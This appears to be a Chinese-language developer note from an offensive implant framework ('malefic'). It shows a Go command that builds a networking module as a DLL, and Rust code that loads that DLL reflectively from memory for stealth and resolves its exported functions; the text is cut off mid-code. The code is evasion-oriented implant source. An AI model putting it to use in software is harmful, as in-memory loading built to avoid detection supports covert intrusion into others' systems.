 
```bash
go build -buildmode=c-shared -o dist/rem.dll -ldflags "-s -w" -buildvcs=false .\cmd\export\
```

这个是FFI的公头， 在rust中实现对应的母头， 但是略微不同的是， 我们不会采用原始的加载DLL的方式，而是更加OPSEC的反射加载。 
https://github.com/chainreactors/malefic/blob/master/malefic-helper/src/common/rem/rem_reflection.rs

```rust
#[cfg(target_os = "windows")]  
#[cfg(feature = "prebuild")]  
pub unsafe fn load_module(bins: Vec<u8>, bundle: String) -> Result<*const c_void, CommonError> {  
    use crate::win::kit::{MaleficLoadLibrary, AUTO_RUN_DLL_MAIN, LOAD_MEMORY};  
  
    if bins.is_empty() || bundle.is_empty() {  
        return Err(ArgsError(obfstr!("bins or bundle is empty :)").to_string()));  
    }  
    let new_bundle = format!("{}{}", bundle, "\x00");  
    let dark_module = MaleficLoadLibrary(  
        AUTO_RUN_DLL_MAIN | LOAD_MEMORY as u32,  
        null(),  
        bins.as_ptr() as _,  
        bins.len(),  
        new_bundle.as_ptr() as _,  
    ) as _;  
  
    Ok(dark_module)  
}

#[cfg(target_os = "windows")]  
#[cfg(feature = "prebuild")]  
pub unsafe fn get_function_address(module_base: *const c_void, function_name: &str) -> *const c_void {  
    use crate::win::kit::MaleficGetFuncAddrWithModuleBaseDefault;  
  
    MaleficGetFuncAddrWithModuleBaseDefault(  
        module_base,  
        function_name.as_ptr(),  
        function_name.len(),  
    )  
}


// 反射加载dll并解析对应的函数
unsafe fn initialize_functions() -> Result<(), String> {  
    let dll_bytes = REM_DLL  
        .get()  
        .ok_or("REM not initialize, please load rem.dll")?;  
  
    let module = load_module(dll_bytes.clone(), String::from("rem"))  
        .map_err(|e| format!("Failed to load module: {:?}", e))?;  
  
    if module.is_null() {  
        return Err("Failed to load module: module is null".to_string());  
    }  
  
    let module_base = module as *const _;  
  
    // 获取各个函数的地址  
    let rem_dial_addr = get_function_address(module_base, "RemDial");  
    if rem_dial_addr.is_null() {  
        return Err("Failed to get RemDial function".to_string());  
    }  
    REM_FUNCTIONS.rem_dial = Some(std::mem::transmute(rem_dial_addr));
```